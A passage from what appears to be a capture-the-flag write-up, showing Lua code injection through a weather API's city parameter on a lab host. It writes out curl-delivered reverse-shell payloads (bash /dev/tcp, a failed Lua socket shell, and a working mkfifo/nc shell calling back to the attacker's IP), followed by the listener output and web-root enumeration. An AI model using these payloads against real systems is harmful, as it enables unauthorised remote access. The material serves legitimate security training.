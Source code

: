     
    
    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('bash -c "bash -i >& /dev/tcp/10.10.14.11/443 0&>1"') 'http://10.10.10.218/weather/forecast' -s
    

I tried a Lua shell, but the modules needed weren’t there:

    
    
    oxdf@parrot$ curl -G --data-urlencode "city=') require('socket');require('os');t=socket.tcp();t:connect('10.10.14.11','443');os.execute('/bin/sh -i <&3 >&3 2>&3') --" 'http://10.10.10.218/weather/forecast' -s
    {"code": 500,"error": "unknown city: <br>Lua error: [string "                httpd.write('{"code": 500,')..."]:2: module 'socket' not found:
            no field package.preload['socket']
            no file '/usr/share/lua/5.3/socket.lua'
            no file '/usr/share/lua/5.3/socket/init.lua'
            no file '/usr/lib/lua/5.3/socket.lua'
            no file '/usr/lib/lua/5.3/socket/init.lua'
            no file '/usr/lib/lua/5.3/socket.so'
            no file '/usr/lib/lua/5.3/loadall.so'
    

The FIFO shell did work:

    
    
    oxdf@parrot$ curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast' -s
    

And it connects to a listening `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.218] 65453
    sh: can't access tty; job control turned off
    $ id
    uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
    

## Shell as r.michaels

### Enumeration

#### Web

In the web root there are three files:

    
    
    $ pwd  
    /var/www
    $ ls -la
    total 20
    drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
    drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
    -rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
    -rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
    -rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
    